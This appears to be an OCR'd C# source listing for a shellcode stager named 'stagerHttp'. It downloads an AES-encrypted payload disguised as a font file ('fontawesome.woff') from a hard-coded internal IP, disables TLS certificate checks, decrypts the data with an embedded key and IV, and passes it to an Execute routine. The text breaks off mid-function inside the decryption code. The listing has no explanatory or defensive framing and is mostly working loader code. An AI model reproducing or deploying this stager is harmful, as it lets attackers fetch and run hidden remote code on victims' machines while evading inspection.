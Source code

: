 

#### C# Code

/platform:x64

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;
using System.Security.Cryptography;
using System.IO;

namespace stagerHttp
{
    class Program
    {
        private static string AESKey = "ec1238205e0e65ce";
        private static string AESIV = "786b6eb024458604";
        private static string url = "http://192.168.244.129/fontawesome.woff";
        public static void Main(String[] args)
        {
            byte[] shellcode = Download(url);
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length - 1; i++)
            {
                l.Add(shellcode[i]);
            }

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);

            return decrypted;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
```